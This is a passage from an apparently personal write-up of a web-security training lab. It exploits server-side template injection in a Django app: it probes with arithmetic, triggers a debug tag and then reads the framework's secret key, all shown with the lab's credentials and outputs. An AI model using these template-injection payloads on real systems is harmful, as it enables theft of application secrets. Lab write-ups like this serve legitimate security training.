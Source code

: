 ```bash
```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220601234926.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220602001136.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220602001424.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220602001802.png)

### Server-side template injection with information disclosure via user-supplied objects
```bash

# This lab is vulnerable to server-side template injection due to the way an object is being passed into the template. This vulnerability can be exploited to access sensitive data.

# To solve the lab, steal and submit the framework's secret key.

# You can log in to your own account using the following credentials:

# content-manager:C0nt3ntM4n4g3r

Login as content-manager:C0nt3ntM4n4g3r
Go to: "View details"
Click "Edit template"
Input [[7*7]]
Preview
Output:

Internal Server Error

Traceback (most recent call last): File "<string>", line 11, in <module> File "/usr/local/lib/python2.7/dist-packages/django/template/base.py", line 191, in __init__ self.nodelist = self.compile_nodelist() File "/usr/local/lib/python2.7/dist-packages/django/template/base.py", line 230, in compile_nodelist return parser.parse() File "/usr/local/lib/python2.7/dist-packages/django/template/base.py", line 486, in parse raise self.error(token, e) django.template.exceptions.TemplateSyntaxError: Could not parse the remainder: '*7' from '7*7'

Django

Refer to:

https://github.com/Lifars/davdts

Input:

[% debug %]

Review
Input:

[[settings.SECRET_KEY]]

Output:

b47c1ee6ef9ckx5gfoiwi2x79ep57l1m

```
